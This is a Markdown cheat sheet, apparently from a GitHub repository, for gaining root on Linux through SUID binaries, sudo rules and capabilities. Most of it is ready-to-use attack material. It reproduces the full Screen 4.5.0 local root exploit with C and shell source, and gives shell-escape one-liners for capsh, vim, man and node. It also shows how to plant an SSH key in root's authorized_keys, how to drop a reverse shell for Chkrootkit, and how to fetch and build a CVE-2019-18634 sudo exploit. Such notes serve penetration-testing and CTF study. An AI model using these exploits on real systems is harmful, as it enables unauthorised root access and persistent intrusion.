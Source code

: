 # Linux - CapSuidSudoExploit

All of this is for unique suid, sudo or capabilities. Any common one please check GTFOBins!. You can check the references below for more good site for this :)

- [Capabilities](#capabilities)
- [Suid](#suid)
- [Sudo](#sudo)
- [Exploit](#exploit)
- [References](#references)

# Capabilities

# SUID

### Screen4.50

All of these file do it on your machine first then transfer the file to your targets.

Save the file in libhax.c. Then compile like the command below:
```
# Command to Compile
gcc -fPIC -shared -ldl -o libhax.so libhax.c

# Script To Save (libhax.c)

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Save the file in rootshell.c. Then compile like the command below:
```
# Command to Compile
gcc -o rootshell rootshell.c

# Script To Save (rootshell.c)

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Save the file in screenroot.sh like below:
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

After that please transfer all of the files and chmod 777 all the transfer files on your target machine. Run like below and get rooted!
```
./screenroot.sh
./rootshell
```

Link => [ExploitDB-41154](https://www.exploit-db.com/exploits/41154)

### Hping3

```
- Just run the binary hping3
- Type any commands like id or you can go anywhere as a root.
```

### capsh

```
- /usr/sbin/capsh --keep=1 --user=root -- -c bash -p
- /usr/sbin/capsh -- -p
```

### vim.basic

```
# Depends on python (sometimes)
- vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
- vim.basic -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

# Sudo

### man

```
[1] Case 1: If there is no default pager (less)

- sudo /bin/man -P /usr/bin/less man
    * Then !/bin/sh
- sudo PAGER=/usr/bin/less /bin/man man
    * Then !/bin/sh

[2] Case 2: If there is no less pager

- Create /tmp/cat 
    * Contains 
        mkdir /root/.ssh
        echo '<YOUR AUTHORIZED_KEYS>' > /root/.ssh/authorized_keys
        chmod 600 authorized_keys
- sudo /bin/man -P /tmp/cat man
- Now you can ssh root@IP -i id_rsa
```

### node

```
- sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

# Exploit

### Chkrootkit (version 0.49)

Link => [Local root exploit in Chkrootkit](https://lepetithacker.wordpress.com/2017/04/30/local-root-exploit-in-chkrootkit/)

```
- '/tmp/update' is executed every time when Chkrootkit is executed so check the cron for find when chkrootkit is launched .
- So make a new file name update in /tmp.
- Put a reverse shell inside update and wait for chkrootkit to execute!
```

### Sudo Password Printed (****)

Link => [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

```
- Sudo versions 1.7.1 to 1.8.30 inclusive are affected but only if the pwfeedback option is enabled in sudoers. 
- You can test using this commands
    -> perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash
    -> if got segmentation fault means you can exploit this.
- wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
- gcc exploit.c -o exploit
- Then run the exploit!
```



# References
[1] https://gtfobins.github.io/

[2] https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

[3] https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/